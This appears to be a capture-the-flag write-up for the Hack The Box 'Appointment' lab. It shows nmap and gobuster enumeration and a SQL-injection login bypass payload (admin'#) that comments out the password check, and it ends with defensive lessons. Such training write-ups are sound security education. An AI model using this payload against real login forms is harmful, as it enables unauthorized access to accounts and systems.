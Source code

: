# HTB “Appointment” SQL‑Injection Write‑Up

## 1. Introduction
**Objective:** Bypass the login form on the Appointment web app using SQL‑Injection to retrieve the flag.  
**Author:** keyfive5  
**Date:** 2025‑04‑20  

## 2. Lab Environment
- **Attacker VM:** Kali Linux (via HTB VPN)  
- **Target IP:** 10.129.99.212  
- **Tools:** nmap, gobuster, curl  

## 3. Enumeration

### 3.1 Nmap Scan
```bash
nmap -sC -sV 10.129.99.212 -o screenshots/nmap.png
```
**Result:** Apache httpd 2.4.38 on port 80

### 3.2 Directory Brute‑Force (Optional)
```bash
gobuster dir -u http://10.129.99.212 -w /usr/share/wordlists/dirb/common.txt -o screenshots/gobuster.png
```
**Result:** No sensitive directories found

## 4. Exploitation

### 4.1 SQL‑Injection Payload
- **Username:** `admin'#`  
- **Password:** anything  

This input closes the `username='…'` clause and comments out the password check.

### 4.2 Manual Exploit
1. Navigate to `http://10.129.99.212/login`  
2. Input `admin'#` as username and any password  
3. Submit → authenticated as **admin**, flag displayed  

![Login Bypass](../screenshots/bypass-login.png)

## 5. Automation Script
See `scripts/login-sqli.sh` for reproduction:

```bash
bash scripts/login-sqli.sh 10.129.99.212
```

## 6. Results
- **Flag:** `flag{...}`

## 7. Lessons Learned
- Unsanitized inputs lead to trivial authentication bypass.  
- Always use parameterized queries or prepared statements.  
- Implement input validation and WAF protections.

## 8. References
- [OWASP Top 10 – Injection](https://owasp.org/www-project-top-ten/)  
- `man gobuster`  
- `man curl`  
